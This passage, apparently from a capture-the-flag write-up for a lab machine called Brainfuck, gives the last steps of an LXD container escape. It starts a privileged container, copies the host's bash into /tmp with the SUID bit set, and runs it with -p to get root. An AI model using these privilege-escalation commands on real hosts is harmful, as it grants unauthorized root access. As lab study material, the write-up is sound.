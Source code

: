 5. **Afterwards, start the container** and **execute a bourne shell** (`sh`) (since it ***preserves the permission by default***)
```bash
lxc start brainfucked
lxc exec brainfucked /bin/sh
```
6. ***And, with the root privilege***, we will **create an SUID bash** in `/tmp` on the host
```bash
cp /mnt/root/bin/bash /mnt/root/tmp/bash
chmod +s /mnt/root/tmp/bash
```
7. ***After exiting the container shell,*** we can **run the the SUID bash** with the `-p` flag to **execute as root**

**It should all look like this:**

![](/assets/Brainfuck/rooted.jpg)

**A piece of cake :D**